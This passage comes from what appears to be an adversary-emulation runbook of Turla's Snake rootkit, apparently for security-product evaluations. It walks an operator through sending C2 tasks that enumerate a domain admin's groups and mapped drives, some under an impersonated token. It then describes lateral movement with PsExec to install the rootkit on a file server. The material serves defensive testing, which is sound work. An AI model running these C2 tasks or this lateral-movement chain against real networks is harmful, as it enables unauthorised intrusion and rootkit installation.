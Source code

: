 ```bash
grep 'NK\\EgleAdmin' logs.txt -i
```

* This should return output similar to the following:
>
* > ```text
    > powershell.exe                2868 RDP-Tcp#6                  5     79,140 K Unknown         NK\egleadmin                                            0:00:00 N/A
    > conhost.exe                   7368 RDP-Tcp#6                  5     18,088 K Unknown         NK\egleadmin                                            0:00:00 N/A
    > ```

* Wait 1 minute then execute the next discovery command to enumerate `EgleAdmin`'s groups:

```bash
# Enumerate details on EgleAdmin to find group membership
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "net.exe", "args": "user /domain EgleAdmin"}'
```

:heavy_exclamation_mark: Verify that `File Server Admins` is listed as one of the groups that `EgleAdmin` is a member of.

* Wait 1 minute then execute the next discovery command to the drive mapped to the file server:

```bash
# Discover that the local machine has a drive mapped to the file server
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "net.exe", "args": "use", "runas": "nk\\Egle"}'
```

:heavy_exclamation_mark: Verify that the home drive is mapped to the file server host `berzas` (`10.100.30.204`).

### :moyai: Source Code

* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [Task download](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task execution with optional token impersonation](../../Resources/Snake/UserModule/src/execute.cpp#L406)
  * [Token duplication](../../Resources/Snake/UserModule/src/execute_token.cpp#L284)

### :microscope: Cited Intelligence

* <https://artemonsecurity.com/snake_whitepaper.pdf>

## Step 14 - Lateral Movement to File Server

:microphone: `Voice Track:`

Step 14 emulates Turla using the discovered admin account to laterally move to the file server and install the Snake rootkit on it.

Using the information discovered in the previous step, Snake impersonates the EgleAdmin account to run PsExec and execute another copy of the Snake rootkit installer on the file server. This new copy of the Snake installer will have the installed rootkit beacon back to the C2 server via a different redirector.

---